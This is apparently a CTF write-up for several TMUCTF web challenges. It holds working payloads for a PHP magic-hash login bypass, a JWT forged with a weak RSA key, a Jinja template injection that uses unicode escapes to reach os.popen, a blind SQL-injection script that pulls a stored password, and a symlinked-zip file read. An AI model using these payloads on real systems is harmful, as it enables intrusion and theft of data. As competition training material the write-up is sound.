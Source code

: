 ## Challenge Login
Step 1: /robots.txt -> get source

Step 2: input password = `0e1137126905` (payload)

Flag -> `TMUCTF{D0_y0u_kn0w_7h3_d1ff3r3nc3_b37w33n_L0053_c0mp4r150n_4nd_57r1c7_c0mp4r150n_1n_PHP!?}`

## Challenge The Devil Never Sleeps

Step 1: `/sleepingpill` -> get jwt and public key

Step 2: format public key
File `key.pub`
```
-----BEGIN PUBLIC KEY-----
MIGsMA0GCSqGSIb3DQEBAQUAA4GaADCBlgKBjgD/////////////////////////
/////////////////////////////////////////////////////////////3//
///////////+AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAECAwEAAQ==
-----END PUBLIC KEY-----
```
Step 3: Use RsaCtfTool to gen private key

`./RsaCtfTool.py --publickey ./key.pub --private`

Private key
```
-----BEGIN RSA PRIVATE KEY-----
MIICkAIBAAKBjgD/////////////////////////////////////////////////
/////////////////////////////////////3/////////////+AAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAECAwEAAQKBjSp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WA
Kn/VgCp/1YAqf9WAKn/VgCp/1YAqf9WAKn/VgCp/1YAqVVWqqlVVqqpVVaoAVf+q
AFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+qAFX/qgBV/6oAVf+q
AFX/qgBV/6oAVf+qAQJCAf//////////////////////////////////////////
////////////////////////////////////////////Akx/////////////////
////////////////////////////////////////////////////////////////
////////////////////AkIBgIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CA
f3+AgH9/gIB/f4CAf3+AgH9/gIB/f4CAf3+AgH9/gIB/f38CTFVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWqqlVVqqpVVaqqVVWq
qlVVqqpVVaqqVVWqqlVVqqkCQRCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhC
EIQhBCEIQhCEIQhCEIQQhCEIQhCEIQhCEEIQhCEIQhCEIQhB
-----END RSA PRIVATE KEY-----
```
Step 4: Use jwt.io set `exp": 9999999999` and `"sleep": "true"`

JWT
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Step 5: `/flag` set Header Pill.
```
Pill: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTYzMTI0NzQ3NywianRpIjoiMjI5Y2U5NzYtOTVlMC00ODdkLTlmODItNTMwZjU4NDkzNzQ3IiwidHlwZSI6ImFjY2VzcyIsInN1YiI6ImRldmlsIiwibmJmIjoxNjMxMjQ3NDc3LCJleHAiOjk5OTk5OTk5OTksInNsZWVwIjoidHJ1ZSIsImRhbmdlciI6InRydWUifQ.NTR8D5-tZJ-Ax6vc_tWtG4HU_JedT0840zZmvrQUSkj-qPQkjHf_lD7sbinnLySK-hUgSqhJa7B_tzR6jENryuFQ8WNwAHMP0RlsU6uJYHHnVOUSfbjsTuNdk7FwPjkm9M43R60hCqIP6NxJ5DY-HLVUql8GzfqbKX2MuCIFmVSL9tvQ4kG2GPlF_DUw
```
Flag -> `TMUCTF{0h_51nn3rm4n_Wh3r3_Y0u_60nn4_Run_70?}`

## Challenge Injection
filter: `_ [] . request popen mro config " os self shell % ; + join` and space

Bypass filter by unicode

```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('id')|attr('read')()}}
```
decode -> `lipsum|attr('__globals__'))|attr('__getitem__')('os')|attr('popen')('id')|attr('read')()`

`ls$IFS-t` -> sort files by time

Payload
```
{{lipsum|attr('\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f')|attr('\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f')('\u006f\u0073')|attr('\u0070\u006f\u0070\u0065\u006e')('cat$IFS/opt/tmuctf/r3zQnO1s31')|attr('read')()}}
```
Final -> decode base64

## Challenge Fake Registration
```py
import requests
import string
from random import choices

url ="http://130.185.123.246/register"
flag=""
padding=""
list_char = string.ascii_letters+string.digits

def random_str()->str:
  return ''.join(choices(list_char,k=7))

def create_user(i,padding):
    data = {
            "username":f"{padding}'||substr((select password from users),{i},1),'tai')--",
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        # print('done')
    except Exception as e:
        print(e)
def brute(char,padding):
    data = {
            "username":padding+char,
            "password":"taidh"
            }
    try:
        r= requests.post(url,data=data)
        return r
    except Exception as e:
        print(e)

if __name__ == "__main__":
    for i in range(1,70):
        padding = random_str()
        # print(padding)
        create_user(i,padding)
        for char in string.printable:
            print(char,end='\r')
            if char!="'":
                r=brute(char,padding)
                #print(r.text)
                try:
                    if "UNIQUE constraint" in r.text:
                        flag+=char
                        padding+=char
                        print(flag)
                        break
                except Exception as e:
                    print(e)
```
Flag -> `MUCTF{P455w0rd5_mu57_b3_l0n6_4nd_c0mpl3x_l1k3_2MWn&p#FmjShTZXfAg:)}`

## Challenge nano
Step 1: `/index.html` -> get path `/801910ad8658876d56f5c8b24a563096.php` (view-source)

Step 2: `/801910ad8658876d56f5c8b24a563096.php?flag_help=/dev/fd/10` -> get path `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php`

Step 3: `/ffc14c6eb03e852ea2d2cbe18b3f4d76.php` and upload zip

Gen zip
```
ls -s /etc/ff3efa4307078c85678c6adee3b5f1b1af2ba16e/nanoflag/flag.txt payload

zip --symlinks payload.zip payload
```

Upload zip and access `/upload/random/payload`
Flag -> `TMUCTF{Z1P_5l1p_15_4_D4n63r0u5_4rch1v3_3x7r4c710N_Vuln3r4b1l17Y___4nd_4_f0rm_0f_D1r3c70rY_7r4v3r54L!!}`

## Thank
Writeup full I will upload at http://dauhoangtai.github.io later
